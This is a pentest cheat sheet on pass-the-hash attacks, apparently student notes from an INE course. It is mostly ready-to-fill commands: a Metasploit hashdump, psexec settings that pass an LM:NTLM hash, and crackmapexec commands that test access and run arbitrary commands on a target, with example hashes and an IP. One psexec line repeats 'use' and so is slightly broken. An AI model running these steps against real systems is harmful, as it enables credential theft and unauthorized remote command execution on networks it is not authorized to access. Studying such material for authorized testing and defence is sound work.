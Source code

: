 # Pass-The-Hash

* [Metasploit](#metasploit)
* [Crackmapexec](#crackmapexec)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Metasploit

### Kiwi

```
hashdump
```

#### Format:
```
[USERNAME]:[RID]:[LM-HASH]:[NTLM-HASH]:::
```

#### Example:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
```

*LM Hash is the same for every user, the NTLM hash is unique.*

### PSExec

```
search psexec
```
```
use use exploit/windows/smb/psexec
```
```
set SMBUser [USERNAME]
```
```
set SMBPass [LM-HASH]:[NTLM-HASH]
```
Example:
```
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
```
```
set target Native\ upload
```
*Target may not need to be set, or may need to be set to something else. Might have to try a few differnet targets to get this to work*  

Now Set RHOSTS, LPORT, & possibly other options and exploit

***********************************************************************

## Crackmapexec

Check for Pwnage:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]"
```
Example:
```
crackmapexec smb 10.3.31.187 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"
```

Once Pwn3d, issue commands like this:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]" -x "[COMMAND]"
```
*Ignore python script errors*

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
